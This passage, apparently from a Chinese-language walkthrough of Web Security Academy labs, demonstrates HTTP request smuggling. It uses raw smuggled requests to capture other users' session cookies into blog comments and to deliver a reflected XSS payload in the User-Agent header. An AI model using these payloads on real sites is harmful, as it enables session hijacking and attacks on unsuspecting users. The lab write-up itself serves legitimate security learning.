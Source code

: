 ```
0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=GvJSTvhXyJeJlPNbJZHneuEjDwJL24XL

csrf=ZrUm7NFnwTcKipoyhKdLML4JUG2nsVKs&postId=4&name=joker&email=test%40test.com&website=&comment=test

```

![image-20200715211510854](http%E8%B5%B0%E7%A7%81/1594912498.png!small)

查看博客文章以查看是否有包含用户请求的评论。请注意，目标用户只会间歇地浏览该网站，因此您可能需要多次重复此攻击才能成功。

如果存储的请求不完整并且不包含Cookie头，则需要缓慢增加走私请求中Content-Length头的值，直到捕获整个cookie。

从注释中复制用户的Cookie标头，然后使用它访问其帐户。

![image-20200715211714093](http%E8%B5%B0%E7%A7%81/1594912506.png!small)

上图为自己访问，获取自己的cookie。

如果需要获取到机器人的cookie值，需要不断的摸索CL长度，把cookie值显示完全，不能太长也不能太短。用了将近两个小时摸索到规律（说到底还是自己太菜了。。），获取的cookie如下：

![image-20200715231233458](http%E8%B5%B0%E7%A7%81/1594912520.png!small)

### 5.4 使用HTTP请求走私来利用反射的XSS

如果应用程序容易受到HTTP请求走私的影响，并且还包含反射的XSS，则可以使用请求走私攻击来攻击该应用程序的其他用户。这种方法在两种方面优于对反射XSS的正常利用：

- 它不需要与受害者用户进行交互。您不需要向他们提供URL，也不必等待他们访问它。您只是走私了包含XSS有效负载的请求，后端服务器将处理下一个用户的请求。
- 它可以用于在请求的某些部分中利用XSS行为，而这些部分在正常的反射XSS攻击中是无法轻松控制的，例如HTTP请求标头。

构造请求包：

```
POST / HTTP/1.1
Host: acdb1f261ef53650804e1f3600d400b1.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=5ZwMRDsuysnQYYEpfXKei2HCGDchgjN8
Upgrade-Insecure-Requests: 1

0

GET /post?postId=3 HTTP/1.1
User-Agent: "><script>alert(1)</script>#
```

其他用户如果在攻击者将请求走私到后端服务器之后访问该页面，将弹框
